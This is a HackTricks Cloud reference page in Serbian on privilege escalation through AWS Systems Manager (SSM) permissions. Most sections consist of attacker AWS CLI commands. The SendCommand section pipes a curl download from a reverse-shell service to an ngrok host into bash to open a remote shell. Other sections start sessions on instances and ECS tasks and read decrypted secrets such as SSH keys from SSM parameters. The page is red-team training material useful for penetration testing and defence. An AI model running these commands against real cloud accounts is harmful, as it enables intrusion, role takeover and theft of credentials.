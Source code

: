 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Za više informacija o SSM proverite:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Napadač sa dozvolom **`ssm:SendCommand`** može **izvršavati komande u instancama** koje pokreću Amazon SSM Agent i **kompromitovati IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
U slučaju da koristite ovu tehniku za eskalaciju privilegija unutar već kompromitovane EC2 instance, možete jednostavno uhvatiti rev shell lokalno sa:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencijalni Uticaj:** Direktno privesc na EC2 IAM uloge povezane sa aktivnim instancama sa SSM Agentima.

### `ssm:StartSession`

Napadač sa dozvolom **`ssm:StartSession`** može **pokrenuti SSH sličnu sesiju u instancama** koje pokreću Amazon SSM Agent i **kompromitovati IAM Ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Da biste započeli sesiju, potrebno je da imate instaliran **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencijalni uticaj:** Direktno privesc do EC2 IAM uloga povezanih sa aktivnim instancama sa SSM agentima.

#### Privesc do ECS

Kada **ECS zadaci** rade sa **`ExecuteCommand` omogućenim**, korisnici sa dovoljno dozvola mogu koristiti `ecs execute-command` da **izvrše komandu** unutar kontejnera.\
Prema [**dokumentaciji**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), to se postiže kreiranjem sigurnog kanala između uređaja koji koristite za iniciranje komande “_exec_” i ciljnog kontejnera sa SSM Session Manager-om. (SSM Session Manager Plugin je neophodan za ovo da bi radilo)\
Stoga, korisnici sa `ssm:StartSession` moći će da **dobiju shell unutar ECS zadataka** sa tom opcijom omogućenom jednostavno pokretanjem:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potencijalni uticaj:** Direktno privesc na `ECS` IAM uloge povezane sa aktivnim zadacima sa omogućenom `ExecuteCommand`.

### `ssm:ResumeSession`

Napadač sa dozvolom **`ssm:ResumeSession`** može ponovo **pokrenuti SSH sličnu sesiju u instancama** koje pokreću Amazon SSM Agent sa **isključenim** stanjem SSM sesije i **kompromitovati IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencijalni uticaj:** Direktno privesc na EC2 IAM uloge povezane sa aktivnim instancama sa SSM agentima i disconected sesijama.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Napadač sa pomenutim dozvolama će moći da prikaže **SSM parametre** i **pročita ih u čistom tekstu**. U ovim parametrima često možete **pronaći osetljive informacije** kao što su SSH ključevi ili API ključevi.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar parametara.

### `ssm:ListCommands`

Napadač sa ovom dozvolom može da prikaže sve **komande** koje su poslate i nadati se da će pronaći **osetljive informacije** u njima.
```
aws ssm list-commands
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar komandnih linija.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Napadač sa ovim dozvolama može da prikaže sve **komande** poslate i **pročita izlaz** generisan, nadajući se da će pronaći **osetljive informacije** u njemu.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar izlaza komandnih linija.

### Codebuild

Možete takođe koristiti SSM da uđete u projekat codebuild koji se gradi:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
